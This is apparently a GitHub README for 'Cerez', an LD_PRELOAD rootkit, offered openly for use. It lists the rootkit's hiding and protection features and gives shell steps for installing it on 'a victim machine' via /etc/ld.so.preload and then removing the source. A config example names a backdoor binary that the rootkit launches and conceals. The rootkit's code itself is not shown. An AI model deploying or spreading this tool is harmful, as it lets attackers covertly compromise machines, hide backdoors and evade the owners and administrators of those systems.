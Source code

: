 <h1 align="center">
  <img src="assets/banner.png"/>  
  <br>
  Cerez 😈 A simple LD_PRELOAD rootkit
</h1>

Cerez is a configurable `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls like `open`, `write`
and others.

## Features
- ✔ Hides files in the file system 
- ✔ Hides proceses in the process list 
- ❌ Hides connections in the network list
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 
- ✔ Makes processes unkillable 

## Install 
To install the rootkit on a victim machine:
```
git clone https://github.com/ngn13/cerez.git
cd cerez
make 
make install
cd ..
rm -rf cerez
```

## Config `(/etc/cerez.cfg)`
```
backdoor:/usr/bin/backdoor -> backdoor that will be started by the rootkit
whitelist:/usr/bin/backdoor --> rootkit won't hide/protect stuff from this 
output:1 --> if set to 1, cerez will hide any console output that contains hidden file names
/etc/cerez.cfg -> rest is just the list of the files that will be hidden
./cerez.cfg
...
```

## Resources
To learn more about LD_PRELOAD rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
